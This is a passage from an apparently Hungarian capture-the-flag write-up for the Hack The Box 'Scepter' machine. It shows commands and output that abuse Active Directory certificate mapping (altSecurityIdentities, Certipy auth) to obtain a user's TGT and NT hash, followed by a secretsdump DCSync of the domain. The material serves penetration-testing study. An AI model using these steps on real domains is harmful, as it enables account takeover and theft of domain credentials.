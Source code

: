 ```python
    convert(args.serial, args.issuer)
```
**Futtatás:**
```bash
python3 conv.py -serial 62:00:00:00:09:92:96:68:CF:F0:98:1A:D8:00:00:00:00:00:09 -issuer "DC=htb, DC=scepter, CN=scepter-DC01-CA"
```
Kimenet pl.:
```
X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>090000000000d81a98f0cf6896920900000062
```

---

## PowerShell: altSecurityIdentities beállítása, $map változó definiálása 

```powershell
$map = 'X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>090000000000d81a98f0cf6896920900000062'
Set-ADUser p.adams -Replace @{altSecurityIdentities=$map}
```

---

## Certipy auth p.adams-ként

```bash
certipy auth -pfx nosecpc.pfx -dc-ip 10.10.11.65 -username p.adams
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] The provided username does not match the identification found in the provided certificate: 'P.ADAMS' - 'meow$'
Do you want to continue? (Y/n) y
[*] Using principal: p.adams@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b5
```
Hash: `aad3b4...:1b925c...`

---

## DCSync (ADDC hash dump)

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc -hashes aad3b4...:1b925c... scepter.htb/p.adams@10.10.11.65
```

---
